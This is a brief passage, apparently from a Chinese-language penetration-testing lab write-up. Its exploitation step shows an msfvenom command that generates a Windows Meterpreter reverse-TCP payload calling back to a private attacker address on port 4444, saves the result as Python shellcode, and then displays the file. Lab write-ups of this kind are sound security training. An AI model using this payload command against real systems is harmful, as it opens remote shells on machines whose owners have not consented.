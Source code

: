 ![Alt text](image-41.png)   
### 2.2.3 漏洞利用   
生成漏洞利用代码：   
```shell
 msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.228.129 lport=4444 -f python>medjed_shellcode.txt
```   
![Alt text](image-42.png)   
查看生成的文件：   
```shell
 cat medjed_shellcode.txt
```   
![Alt text](image-43.png)   